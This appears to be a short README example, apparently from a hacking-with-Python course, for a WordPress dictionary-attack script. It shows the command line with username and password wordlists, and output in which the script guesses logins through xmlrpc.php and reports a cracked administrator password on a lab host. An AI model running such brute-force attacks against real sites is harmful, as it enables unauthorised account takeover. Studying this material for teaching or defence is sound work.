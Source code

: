 ## Example

### Wörterbuch Angriff
* `./brute_force_wp.py --url http://wordpress -u ../data_collection/V_username_102.lst ../wordlists/usernames.lst -p ../data_collection/V_wordlist_374.lst -m x -v`

```
| Start Brute Force Script
[#] Use validation: Login Error
	- mibi
	- webadmin
[?] Load 2 Usernames and 374 Passwords
[#] Use Methode: xmlrpc.php

	 - Username[1/2]:     mibi - Password[374/374]  velVoluptatem!
	 - Username[2/2]: webadmin - Password[110/374]  H@ckingPython! <= Valid  - is Administrator


| Findings:
	- webadmin : H@ckingPython! - is Administrator

| End                                             
```
